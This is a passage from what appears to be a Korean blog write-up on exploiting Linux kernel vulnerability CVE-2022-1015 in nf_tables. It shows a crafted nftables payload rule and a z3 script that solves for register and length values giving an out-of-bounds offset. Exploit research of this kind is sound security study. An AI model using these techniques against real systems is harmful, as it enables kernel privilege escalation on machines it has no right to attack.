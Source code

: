 
페이로드 길이 부족으로 rule을 다음과 같이 수정했다.


```c
add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, 0, 0x3fffffca, 28, 0xe8);
```


![24](/assets/img/2023-09-23-Linux-Kernel-Exploit:-CVE-2022-1015.md/24.png)


오프셋은 0xc6이다.


![25](/assets/img/2023-09-23-Linux-Kernel-Exploit:-CVE-2022-1015.md/25.png)


전에 z3로 만들어둔 오프셋 계산기를 사용했다.


```python
from z3 import *

s = Solver()

reg = BitVec('reg', 64)
len = BitVec('len', 64)

s.add(ULE(len, 0xff))
s.add(UGE(len, 0xf0))
s.add(UGE((reg - 4) * 4 + len, 0x100000000))
s.add(ULE(reg, 0xffffffff))
s.add((reg - 4) & 0xff == 0xc6) 
s.add(ULE(((reg-4) * 4 + len) & 0xffffffff, 0x50))

sol = s.check()
if sol == sat:
    print(s.model())
else:
    print("unsat")
```
